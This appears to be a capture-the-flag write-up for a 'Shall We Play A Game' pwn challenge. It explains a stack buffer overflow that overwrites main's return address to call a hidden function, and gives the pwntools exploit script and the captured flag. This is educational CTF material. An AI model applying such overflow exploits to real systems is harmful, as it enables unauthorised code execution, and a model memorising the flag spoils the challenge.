


# Shall We Play A Game
>

## About the Challenge
This is a classic pwn challenge. We are given an ELF file, and we need to overflow the buffer using our input

## How to Solve?
There is a function that never run by the script (global_thermo_nuclear_war).



It's located on ```0x00000000004011e1```. And our task is to run this function by override the memory address on return function main

I wrote a script in python using pwntools to make it easy for me

```python
from pwn import *
import struct
import pwn

context(arch='i386', os='linux')

# p = process('./chal')
p = remote('gold.b01le.rs',4004)

offset = 72
buff = pwn.p64(0x00000000004011e1)

payload = b'A'* offset + buff

p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline("AAA")
p.recvline()
p.sendline(payload)
p.recvline()
s = p.recvline()
print(s)
```

After we run that, we got the flag



```text
flag : bctf{h0w_@bo0ut_a_n1ce_g@m3_0f_ch3ss?_ccb7a268f1324c84}
```


